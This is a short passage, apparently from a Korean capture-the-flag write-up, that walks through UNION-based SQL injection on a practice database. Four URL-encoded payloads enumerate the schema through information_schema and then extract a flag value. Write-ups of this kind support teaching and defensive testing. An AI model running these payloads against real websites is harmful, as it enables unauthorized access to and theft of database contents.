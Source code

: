```html
'+union+select+1,2,3,4,5,database()%23
```

출력 결과를 통해 현재 데이터베이스 이름은 **sqli_5**임을 확인하였다.

이어서 `information_schema.tables`를 활용하여 데이터베이스 내 테이블 이름을 조회하였다.

다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret**이 출력되었다.

```html
'+union+select+1,2,3,4,5,(select+table_name+from+information_schema.tables+where+table_schema='sqli_5'+limit+2,1)%23
```

`information_schema.columns`를 사용하여 `secret` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
'+union+select+1,2,3,4,5,(select+column_name+from+information_schema.columns+where+table_schema='sqli_5'+and+table_name='secret'+limit+0,1)%23
```

그 결과, 해당 테이블에는 **flag**라는 컬럼이 존재함을 확인하였다.

마지막으로, 다음과 같은 쿼리를 통해 실제 **flag 값**을 추출하였다.

```html
'+union+select+1,2,3,4,5,(select+flag+from+secret+limit+1,1)%23
```

![sql2 flag](/assets/screenshots/union-sqli/sql_2_flag.png)

이렇게 **flag를 획득** 하였다.

---

## 도박 관리자
